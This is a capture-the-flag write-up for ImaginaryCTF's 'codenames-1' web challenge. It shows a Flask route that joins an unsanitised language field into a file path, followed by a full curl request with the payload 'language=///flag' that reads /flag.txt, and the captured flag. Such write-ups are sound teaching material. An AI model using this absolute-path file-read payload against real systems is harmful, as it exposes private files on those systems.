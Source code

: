 # codenames-1

```
by Eth007
Description

I hear that multilingual codenames is all the rage these days. Flag is in /flag.txt.

http://codenames-1.chal.imaginaryctf.org/ (bot does not work on this instance, look at codenames-2 for working bot)
```

In attachment the source code is provided. The flag is store in `/flag.txt`, and there is a file read vulnerability:

```python
@app.route('/create_game', methods=['POST'])
def create_game():
    if 'username' not in session:
        return redirect(url_for('index'))
    # generate unique code
    while True:
        code = ''.join(random.choices(string.ascii_uppercase + string.digits, k=6))
        if code not in games:
            break
    # prepare game with selected language word list
    # determine language (default to first available)
    language = request.form.get('language', None)
    if not language or '.' in language:
        language = LANGUAGES[0] if LANGUAGES else None
    # load words for this language
    word_list = []
    if language:
        wl_path = os.path.join(WORDS_DIR, f"{language}.txt")
```

Although it filters out `.`, we can use `/flag` to access `/flag.txt`:

```shell
$ curl 'http://codenames-1.chal.imaginaryctf.org/create_game' \
$       -X POST \
$       -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:142.0) Gecko/20100101 Firefox/142.0' \
$       -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
$       -H 'Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3' \
$       -H 'Accept-Encoding: gzip, deflate' \
$       -H 'Content-Type: application/x-www-form-urlencoded' \
$       -H 'Origin: http://codenames-1.chal.imaginaryctf.org' \
$       -H 'Sec-GPC: 1' \
$       -H 'Connection: keep-alive' \
$       -H 'Referer: http://codenames-1.chal.imaginaryctf.org/lobby' \
$       -H 'Cookie: session=REDACTED' \
$       -H 'Upgrade-Insecure-Requests: 1' \
$       -H 'Priority: u=0, i' --data "language=///flag"
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/game/GUJIPV">/game/GUJIPV</a>. If not, click the link.
```

Then, we just use the accounts to join the game, and we can find the flag in the game:

![](codenames-1.png)

Get flag: `ictf{common_os_path_join_L_b19d35ca}`.
